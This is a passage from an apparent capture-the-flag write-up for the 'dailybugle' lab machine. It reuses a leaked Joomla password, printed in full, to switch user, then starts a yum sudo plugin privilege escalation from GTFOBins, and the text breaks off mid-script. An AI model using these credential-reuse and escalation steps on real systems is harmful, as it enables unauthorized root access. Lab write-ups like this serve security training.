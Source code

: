 ```php
        public $sef = '1';
        public $sef_rewrite = '0';
        public $sef_suffix = '0';
        public $unicodeslugs = '0';
        public $feed_limit = '10';
        public $feed_email = 'none';
        public $log_path = '/var/www/html/administrator/logs';
        public $tmp_path = '/var/www/html/tmp';
        public $lifetime = '15';
        public $session_handler = 'database';
        public $shared_session = '0';
```

Maybe jjameson use the same pass for system (and maybe ssh too...)

`jjameson : nv5uz9r3ZEDzVjNu`

```bash
su jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle html]$
```

now we are good
`cat user.txt`

## Privilege Escalation

further privileges are required...let's evolve again

```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
(ALL) NOPASSWD: /usr/bin/yum
```

Ah yes..the description said something about yum..let's ask gtfobins real quick

He said this:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
```